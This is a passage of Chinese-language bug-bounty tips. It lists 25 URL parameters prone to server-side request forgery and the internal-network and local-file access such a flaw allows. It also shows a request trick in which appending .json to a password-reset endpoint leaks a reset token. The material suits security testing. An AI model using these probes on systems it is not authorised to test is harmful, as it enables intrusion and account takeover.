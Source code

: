 以下是可能存在服务器端请求伪造（SSRF）漏洞的 25 大参数。

```bash
?dest={target}
?redirect={target}
?uri={target}
?path={target}
?continue={target}
?url={target}
?window={target}
?next={target}
?data={target}
?reference={target}
?site={target}
?html={target}
?val={target}
?validate={target}
?domain={target}
?callback={target}
?return={target}
?page={target}
?feed={target}
?host={target}
?port={target}
?to={target}
?out={target}
?view={target}
?dir={target}
```

下次在 URL 中遇到这样的参数时，要引起注意，因为 SSRF 是一个关键的漏洞，可能会让你。

• 在远程服务器的环回接口上访问服务。• 扫描内部网络并与内部服务进行潜在的交互。• 使用 file:// 协议处理程序读取服务器上的本地文件。• 横向移动 / 转入内部环境。

## 49\. 敏感数据泄漏使用.json

By @SalahHasoneh1\[50\] Source: link\[51\]

这里有一个使用.json 扩展名实现敏感数据泄露的技巧。

•

Request: `GET /ResetPassword HTTP/1.1{"email":"victim@example.com"}`

Response: `HTTP/1.1 200 OK`

  

现在让我们试试这个。

•

Request: `GET /ResetPassword.json HTTP/1.1{"email":"victim@example.com"}`

Response: `HTTP/1.1 200 OK{"success":"true","token":"596a96-cc7bf-9108c-d896f-33c44a-edc8a"}`

  
